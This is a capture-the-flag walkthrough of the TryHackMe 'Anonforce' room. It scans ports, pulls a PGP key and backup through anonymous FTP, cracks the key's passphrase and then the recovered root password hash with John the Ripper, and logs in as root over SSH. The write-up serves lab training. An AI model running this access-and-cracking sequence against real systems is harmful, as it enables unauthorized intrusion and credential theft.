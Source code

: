 ```yaml
---
layout: post
title: "Anonforce"
date: 2022-02-04
categories: [Tryhackme, Easy-THM]
tags: [security]
image: ../../assets/img/posts/Anonforce/anonforce.png 

---
```


## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

|**Room**|[Anonforce](https://tryhackme.com/room/bsidesgtanonforce)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a $IP
```

![rustscan](../../assets/img/posts/Anonforce/rustscan.png)

we get 2 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22 $IP -oN nmap.txt
```

![nmap1](../../assets/img/posts/Anonforce/nmap1.png)
![nmap2](../../assets/img/posts/Anonforce/nmap2.png)
Result scan reveals that port 21 is running vsftpd with anonymous login and port 22 is running ssh service. Enumerate port 21.

Lets connect to ftp service,

```bash
ftp $IP
```

![ftp1](../../assets/img/posts/Anonforce/ftp1.png)
we got in.

Establishing directory content,

![ftp2](../../assets/img/posts/Anonforce/ftp2.png)

navigating to home directory and list directory content,

![ftp3](../../assets/img/posts/Anonforce/ftp3.png)

we got melodias user.

navigating to user directory and list directory content,

![ftp4](../../assets/img/posts/Anonforce/ftp4.png)

we got our user flag. But since we cannot read it, we can take this user.txt file on our system using `get`,

```bash
get user.txt
```

![ftp5](../../assets/img/posts/Anonforce/ftp5.png)

Now, there is also a **notread** directory in system directory as well, so taking a look inside directory reveals that there are 2 files backup.pgp file and private.asc,

![ftp6](../../assets/img/posts/Anonforce/ftp6.png)

We can get these files on our system,

```bash
get backup.pgp
get private.asc
```

We can convert this key into crack-able hash,

```bash
gpg2john private.asc > crackmejohn
```

Now using JTR, we can crack the hash,

```bash
john crackmejohn --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](../../assets/img/posts/Anonforce/john.png)

we got our password, `*******`.

Now, we can import this private key so that we can decrypt the backup key,

```bash
gpg --import private.asc
```

![gpg](../../assets/img/posts/Anonforce/gpg.png)

Now, we can decrypt the backup.pgp file using the password we got,

```bash
gpg --output backup --decrypt backup.pgp
```

![gpg2](../../assets/img/posts/Anonforce/gpg2.png)

Reading the content of backup we just decrypted,

![hashes](../../assets/img/posts/Anonforce/hashes.png)

We got the password hash of root user.

Let's put this hash in a file,

```bash
echo "<hash-string>" > root_hash
```

Now, using JTR to crack this hash,

```bash
john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john2](../../assets/img/posts/Anonforce/john2.png)

We can get into machine via ssh,

```bash
ssh root@$IP
```

![ssh](../../assets/img/posts/Anonforce/ssh.png)

we get in as root user.
